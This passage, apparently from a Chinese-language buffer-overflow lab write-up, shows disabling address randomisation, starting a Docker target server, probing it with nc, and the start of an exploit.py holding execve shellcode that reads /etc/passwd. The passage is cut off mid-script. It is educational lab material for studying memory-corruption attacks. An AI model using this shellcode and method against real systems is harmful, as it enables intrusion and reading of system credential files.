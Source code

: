 ```shell
ftp:x:127:135:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

执行完后，`tmpfile` 也被删除了。

## Task 2: Level-1 Attack

首先关闭 address randomization countermeasure

```shell
sudo sysctl -w kernel.randomize_va_space=0
```

进入 `server-code` 文件夹下，执行命令

```shell
make
make install
```

然后返回其根目录，执行命令启动 docker

```shell
dcbuild
dcup
```

进入 `attack-code` 文件夹，执行

```shell
$ echo hello | nc 10.9.0.5 9090
^C
```

server 显示

```plaintext
server-1-10.9.0.5 | Got a connection from 10.9.0.1
server-1-10.9.0.5 | Starting stack
server-1-10.9.0.5 | Input size: 6
server-1-10.9.0.5 | Frame Pointer (ebp) inside bof(): 0xffffd438
server-1-10.9.0.5 | Buffer's address inside bof():    0xffffd3c8
server-1-10.9.0.5 | ==== Returned Properly ====
```

我们修改 `exploit.py`

```python
#!/usr/bin/python3
import sys

# You can use this shellcode to run any command you want
shellcode = (
    "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
    "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
    "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
    "/bin/bash*"
    "_C*"
    # You can modify the following command string to run any command.
    # You can even run multiple commands. When you change the string,
    # make sure that the position of the * at the end doesn't change.
    # The code above will change the byte at this position to zero,
    # so the command string ends here.
    # You can delete/add spaces, if needed, to keep the position the same.
    # The * in this line serves as the position marker         *
    "/bin/ls -l; echo Hello 32; /bin/tail -n 4 /etc/passwd     *"
    "AAAA"   # Placeholder for argv[0] -- > "/bin/bash"
    "BBBB"   # Placeholder for argv[1] -- > "-c"
    "CCCC"   # Placeholder for argv[2] -- > the command string
```
